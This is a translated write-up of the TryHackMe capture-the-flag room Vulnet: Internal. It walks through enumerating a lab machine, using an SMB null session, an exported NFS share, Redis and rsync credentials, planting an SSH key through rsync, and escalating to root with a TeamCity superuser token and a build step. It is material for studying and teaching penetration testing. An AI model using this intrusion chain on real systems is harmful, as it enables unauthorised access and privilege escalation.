




# TryHackMe write up-Vulnet:内部

> 原文：<https://infosecwriteups.com/tryhackme-writeup-vulnet-internal-9abe74955f32?source=collection_archive---------2----------------------->

本文介绍了我解决 **Vulnet 的方法:内部**夺旗(CTF) 挑战，用户创建的 TryHackMe 平台上可用的免费房间 *TheCyb3rW0lf* 。我在下面的参考资料中提供了 TryHackMe 平台的链接，供有兴趣尝试这款 CTF 的人使用。


# 放弃

我喜欢在一篇文章之前添加一个简短的免责声明，以鼓励人们在阅读本文之前尝试一下这个房间，因为在这篇文章中显然会有**剧透****。我相信，如果你先自己尝试，然后在遇到困难或需要提示时再来写这篇文章，你会更喜欢 CTF。因此，没有任何进一步的拖延，让我们开始吧！**

# **挑战简介**

**以下描述由房间作者提供:**

> **VulnNet Entertainment 是一家从错误中吸取教训的公司。他们很快意识到他们不能开发一个安全的 web 应用程序，所以他们放弃了这个想法。相反，他们决定为商业目的建立内部服务。像往常一样，你的任务是对他们的网络进行渗透测试，并报告你的发现。**

**要完成挑战，需要提交四面旗帜:**

*   ****服务标志****
*   ****内部标志****
*   ****用户标志****
*   ****根标志****

# **列举**

**我开始用 NMAP 扫描所有打开的端口来枚举目标机器:**

```
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.10.199.12PORT      STATE SERVICE      REASON
22/tcp    open  ssh          syn-ack ttl 61
111/tcp   open  rpcbind      syn-ack ttl 61
139/tcp   open  netbios-ssn  syn-ack ttl 61
445/tcp   open  microsoft-ds syn-ack ttl 61
873/tcp   open  rsync        syn-ack ttl 61
2049/tcp  open  nfs          syn-ack ttl 61
6379/tcp  open  redis        syn-ack ttl 61
40031/tcp open  unknown      syn-ack ttl 61
40423/tcp open  unknown      syn-ack ttl 61
44823/tcp open  unknown      syn-ack ttl 61
53943/tcp open  unknown      syn-ack ttl 61
```

**我可以看到扫描发现相当多的端口是开放的。接下来，我使用 NMAP 扫描运行在这些端口和 NMAP 脚本上的服务，以找到任何常见的漏洞:**

```
nmap -sV -sC -Pn -v -p 22, 111, 139, 445, 873, 2049, 6379, 40031, 40423, 44823, 53943 -oN nmap-report 10.10.199.12PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      45711/tcp6  mountd
|   100005  1,2,3      47302/udp6  mountd
|   100005  1,2,3      53649/udp   mountd
|   100005  1,2,3      53943/tcp   mountd
|   100021  1,3,4      32783/tcp6  nlockmgr
|   100021  1,3,4      38136/udp   nlockmgr
|   100021  1,3,4      40423/tcp   nlockmgr
|   100021  1,3,4      41624/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp   open  rsync       (protocol version 31)
2049/tcp  open  nfs_acl     3 (RPC #100227)
6379/tcp  open  redis       Redis key-value store
40031/tcp open  java-rmi    Java RMI
40423/tcp open  nlockmgr    1-4 (RPC #100021)
44823/tcp open  mountd      1-3 (RPC #100005)
53943/tcp open  mountd      1-3 (RPC #100005)
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernelHost script results:
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
| nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   VULNNET-INTERNA<00>  Flags: <unique><active>
|   VULNNET-INTERNA<03>  Flags: <unique><active>
|   VULNNET-INTERNA<20>  Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-06-13T13:24:53+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-13T11:24:53
|_  start_date: N/A
```

**一旦 NMAP 扫描完成，我可以看到很多服务信息被返回。从这里开始，我开始关注每个单独的服务，并找到第一个标志。**

# **端口 139 和 445 —中小型企业**

**为了找到第一个标志，我开始用 **enum4linux:** 执行 SMB 枚举**

```
$ enum4linux -a 10.10.199.29===================================== 
|    Session Check on 10.10.199.12    |
 ===================================== 
[+] Server 10.10.199.12 allows sessions using username '', password ''========================================= 
|    Share Enumeration on 10.10.199.12    |
 ========================================= 
directory_create_or_exist: mkdir failed on directory /run/samba/msg.lock: Permission denied
Unable to initialize messaging context Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shares          Disk      VulnNet Business Shares
        IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing. Server               Comment
        ---------            ------- Workgroup            Master
        ---------            -------
        WORKGROUP[+] Attempting to map shares on 10.10.199.12
//10.10.199.12/print$   Mapping: DENIED, Listing: N/A
//10.10.199.12/shares   Mapping: OK, Listing: OK
//10.10.199.12/IPC$     [E] Can't understand response:====================================================================
| Users on 10.10.199.12 via RID cycling (RIDS: 500-550,1000-1050) |
====================================================================[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-1569020563-4280465252-527208056
[I] Found new SID: S-1-5-32[+] Enumerating users using SID S-1-5-21-1569020563-4280465252-527208056 and logon username '', password ''
S-1-5-21-1569020563-4280465252-527208056-513 VULNNET-INTERNAL\None (Domain Group)[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
 S-1-22-1-1000 Unix User\sys-internal (Local User)
```

**该命令返回了大量信息。根据上面的输出，我可以看到存在一个 **SMB 空会话**漏洞，并且还发现了一个名为 **sys-internal** 的用户。空会话漏洞允许我无需提供密码即可登录共享。我看到有三个共享可用，但我只能访问***//10 . 10 . 199 . 12/shares***共享。使用 **smbclient** 我在没有指定密码的情况下访问了共享，并获得了 services.txt 标志:**

```
$ smbclient -N //10.10.199.12/sharessmb: \temp\> get services.txt$ cat services.txt 
THM{0a09d51e488f5......}
```

**一面旗帜落下，还有四面！**

# **端口 2049 — nfs_acl**

**查看之前的 NMAP 服务扫描，我看到端口 2049 是打开的，并注意到端口 111 有很多输出。我可以在端口 111 的输出中看到，服务 **NFS** 出现在输出中。这表明我可能能够列出并下载(也可能上传)文件。**

> ****注意:** NFS 是一种客户机/服务器系统，允许用户通过网络访问文件，并将其视为驻留在本地文件目录中。**

**我发现以下链接对于了解如何利用 NFS 很有用:**

**[](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting) [## 2049 年的今天，测试 NFS 服务

### 清单-本地 Windows 权限提升

book.hacktricks.xyz](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting) [](https://resources.infosecinstitute.com/topic/exploiting-nfs-share/) [## 利用 NFS 共享[更新 2021] -信息安全资源

### 最近，在为一个客户执行网络级渗透测试活动时，我遇到了一个…

resources.infosecinstitute.com](https://resources.infosecinstitute.com/topic/exploiting-nfs-share/) 

我开始枚举端口 2049，使用 **showmount** 工具检查是否有任何共享可以挂载:

```
$ sudo showmount -e 10.10.63.208Export list for 10.10.63.208:
/opt/conf *
```

***"/opt/conf"*** 目录是可挂载的。注意 */opt/conf* 前面的**星号(*)** 符号，表示网络上的每台机器都可以挂载该机器的 */opt/conf* 文件夹。

> **注意:**如果您看到在目录前面定义了任何 IP 地址或 IP 范围，这意味着只有具有该特定 IP 或范围的机器才被允许挂载该目录，这是一种良好的安全做法。

我在我的 Kali 机器的 */tmp* 文件夹下创建了一个新目录，并运行 **mount** 命令在这个新创建的目录上挂载 */opt/conf* 目录:

```
$ mkdir /tmp/infosec$ mount -t nfs 10.10.63.208:/opt/conf /tmp/infosec
```

一旦命令被执行， **df** 命令可用于检查目录挂载:

```
$ df -kFilesystem             1K-blocks     Used Available Use% Mounted on
......
10.10.63.208:/opt/conf  11309824  7436288   3279360  70% /tmp/infosec
```

我可以看到目录已经被挂载，并继续列出目录的内容。通过查看输出，我发现了 Redis 的一个配置文件:

```
./redis:
total 68
drwxr-xr-x 2 root root  4096 Feb  2 06:19 .
drwxr-xr-x 9 root root  4096 Feb  2 06:19 ..
-rw-r--r-- 1 root root 58922 Feb  2 06:19 redis.conf <- Interesting!
```

# 端口 6379 — redis

参考前面 NMAP 扫描的输出，我知道 redis 运行在端口 6379 上。看着 **redis.conf** 文件，发现了一个密码。

```
requirepass "B65Hx562...."
```

默认情况下，可以在没有凭据的情况下访问 Redis。但是，可以将其配置为仅支持密码，或用户名+密码。

> **N.B.** Redis 是一个开源的(BSD 许可的)、内存中的数据结构存储，用作数据库、缓存和消息代理。

我发现下面的资源对于学习更多关于利用 redis 的知识很有用:

[](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) [## 6379 - Pentesting Redis

### Redis 是开源的(BSD 许可)，内存中)。默认情况下，Redis 通常使用基于纯文本的协议…

book.hacktricks.xyz](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) 

在常规的 Redis 实例中，您可以使用 **nc** 进行连接，也可以使用 **redis-cli。**我尝试的第一个命令是**信息**，但它返回了“***-需要 NOAUTH 认证”*** 消息，这确认了我需要使用上面找到的密码:

```
$ redis-cli -h 10.10.63.20810.10.63.208:6379> info
NOAUTH Authentication required.10.10.63.208:6379> AUTH B65Hx562.....
OK
```

通过身份验证后，我查看是否有可以转储的数据库。在 Redis 中，数据库是从 0 开始的数字。您可以在命令 **info，**的输出中找到是否使用了 **"Keyspace"** 块内的任何:

```
# Keyspace
db0:keys=5,expires=0,avg_ttl=0
```

我可以看到数据库 0 正在使用，并包含 5 个键。默认情况下，Redis 将使用数据库 0。我列出了如下所示的键，并继续获取内部标志:

```
10.10.63.208:6379> KEYS *
1) "tmp"
2) "int"
3) "authlist"
4) "marketlist"
5) "internal flag"10.10.63.208:6379> get "internal flag"
"THM{ff8e518addbb.......}"
(0.55s)
```

第二面旗子完成了，还有一半！

对于其他数据库，Redis 支持 5 种数据类型。您需要知道一个键映射到什么类型的值，对于每种数据类型，检索它的命令是不同的。以下是检索不同键值的命令:

```
if value is of type string -> GET <key>
if value is of type hash -> HGETALL <key>
if value is of type lists -> lrange <key> <start> <end>
if value is of type sets -> smembers <key>
if value is of type sorted sets -> ZRANGEBYSCORE <key> <min> <max>
```

我用这些知识来检索其他数据库的数据。

# 端口 873 — rsync

在“ **authlist** ”密钥数据库中，我发现了一个 base64 编码的值，该值在被解码时给出了 **rsync** 服务的登录凭证:

```
10.10.63.208:6379> lrange "authlist" 0 1001)"QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="# DecodedAuthorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67.....
```

> **注意:** rsync 是一个实用程序，用于在计算机和外部硬盘驱动器之间以及联网的计算机之间高效地传输和同步文件

我发现以下资源对于了解如何利用 rsync 服务非常有用:

[](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync) [## 873 测试同步

### rsync 模块本质上是一个目录共享。这些模块可以选择用密码保护。这个…

book.hacktricks.xyz](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync) [](https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-1-rsync/) [## Linux 黑客案例研究第 1 部分:Rsync

### 这篇博客将介绍如何攻击不安全的 Rsync 配置，以便在 Linux 上获得根 shell

www.netspi.com](https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-1-rsync/) 

我首先使用 **nc** 手动与 rsync 通信，并列举所有共享:

```
$ nc -vn 10.10.63.208 873
(UNKNOWN) [10.10.63.208] 873 (rsync) open
[@RSYNCD](http://twitter.com/RSYNCD): 31.0        <--- You receive this banner with the version from the server
[@RSYNCD](http://twitter.com/RSYNCD): 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
files           Necessary home interaction  <--- The server starts enumerating
[@RSYNCD](http://twitter.com/RSYNCD): EXIT         <--- Sever closes the connection
```

接下来，使用上面找到的凭证，我列出了名为 **files** 的共享中的文件:

```
$ rsync rsync://rsync-connect@10.10.63.208/files/
Password: 
drwxr-xr-x          4,096 2021/02/01 07:51:14 .
drwxr-xr-x          4,096 2021/02/06 07:49:29 sys-internal
```

我可以看到我之前在执行 SMB 枚举时找到的用户 **sys-internal** user 的文件夹。我列出了这个目录中的文件并找到了根标志，然后我下载了它:

```
$ rsync rsync://rsync-connect@10.10.63.208/files/sys-internal/
Password: 

.....
-rw-------             38 2021/02/06 06:54:25 user.txt
drwxrwxr-x          4,096 2021/02/02 04:23:00 .cache
drwxrwxr-x          4,096 2021/02/01 07:53:57 .config
drwx------          4,096 2021/02/01 07:53:19 .dbus
drwx------          4,096 2021/02/01 07:53:18 .gnupg
drwxrwxr-x          4,096 2021/02/01 07:53:22 .local
drwx------          4,096 2021/02/01 08:37:15 .mozilla
drwxrwxr-x          4,096 2021/02/06 06:43:14 .ssh
drwx------          4,096 2021/02/02 06:16:16 .thumbnails
drwx------          4,096 2021/02/01 07:53:21 Desktop
drwxr-xr-x          4,096 2021/02/01 07:53:22 Documents
drwxr-xr-x          4,096 2021/02/01 08:46:46 Downloads
drwxr-xr-x          4,096 2021/02/01 07:53:22 Music
drwxr-xr-x          4,096 2021/02/01 07:53:22 Pictures
drwxr-xr-x          4,096 2021/02/01 07:53:22 Public
drwxr-xr-x          4,096 2021/02/01 07:53:22 Templates
drwxr-xr-x          4,096 2021/02/01 07:53:22 Videos$ rsync rsync://rsync-connect@10.10.63.208/files/sys-internal/ user.txt .
```

还剩三面旗子，还剩一面！

为了在目标机器上获得一个 shell，我使用 rsync 上传了一个 authorized_keys 文件，其中包含我在自己的机器上生成的 SSH 密钥:

```
$ ssh-keygen -o
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): id_rsa
Enter passphrase (empty for no passphrase):$ rsync -av id_rsa.pub rsync://rsync-connect@10.10.63.208/files/sys-internal/.ssh/authorized_keys$ ssh -i id_rsa sys-internal@10.10.63.208
```

我现在可以通过 SSH 访问目标机器了。

# 根权限提升—团队城市

一旦我获得了对目标机器的访问权，我就开始寻找将我的权限提升到 root 的方法。我注意到，在根顶级目录中有一个有趣的文件夹叫做 ***/TeamCity*** 。

> **n . b .**TeamCity 是由 Jet brains 建立的用 Java 语言编写的支持构建和部署不同类型项目的持续集成**工具**。安装后，可以通过 web 浏览器访问 TeamCity web UI。Windows 发行版的默认地址是`[http://localhost/](http://localhost/)`，而`tar.gz`发行版的默认地址是`[http://localhost:8111/](http://localhost:8111/)`。

我发现以下资源对于了解如何利用 TeamCity 非常有用:

[](https://github.com/kacperszurek/pentest_teamcity) [## kacperszurek/pentest_teamcity

### TL；DR:从 JetBrains IDE(如 IntelliJ 或 PyCharm)获取密码，并在 TeamCity 内部使用这些凭证…

github.com](https://github.com/kacperszurek/pentest_teamcity) 

为了连接到运行在端口 8111 上的 TeamCity 服务，我设置了 SSH 端口转发:

```
ssh -L 8111:127.0.0.1:8111 -i id_rsa sys-internal@10.10.94.107
```

一旦设置了 SSH 端口转发，我就可以通过 web 浏览器访问 TeamCity web UI，并看到一个登录页面:



团队城市用户名和密码登录页面

我还可以看到有一个以超级用户身份登录的链接，这需要一个身份验证令牌:


使用身份验证令牌的超级用户登录

我开始寻找可以用来通过任何一个登录页面进行访问的凭证。最终，我在***/team city/log***文件夹中发现了一个名为 **catalina.out** 的文件，其中包含一个可以用来作为超级用户登录的令牌:

```
TeamCity initialized, server UUID: 61907dff-244c-4220-b252-31de83974909, URL: [http://localhost:8111](http://localhost:8111)
TeamCity is running in professional mode
[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
```

> **注意:**该令牌对您来说是不同的，并且在机器每次重启时都会改变。

当我以超级用户的身份进入 TeamCity 后，我创建了一个新项目:



创建新项目。

接下来，我填写了构建配置选项:



为项目创建生成配置。

在这之后，我单击了 build steps 并使用下面的定制脚本让二进制文件 **/bin/bash** 以完全 root 权限运行:



添加将提供 root 权限的构建步骤。

最后，我单击 save，然后单击 run 按钮，这将使应用程序以管理员权限运行命令。现在在 shell 中，我可以将用户切换到 root 并获得 root 标志！

```
$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt
THM{e8996faea46df0........}
```

# 结束语

这台机器提供了一个机会，让您了解如何从内部服务中检索感兴趣的信息，并使用它来获得系统访问权限。有大量的服务可以列举并学习更多关于如何利用它们的知识。我真的很喜欢在这个挑战室工作，希望看到这篇文章的人能学到一些新东西。谢谢你一直读到最后，继续黑下去😄！

[](https://tryhackme.com/) [## 网络安全培训

### TryHackMe 是一个免费的学习网络安全的在线平台，使用动手练习和实验室，通过您的…

tryhackme.com](https://tryhackme.com/)**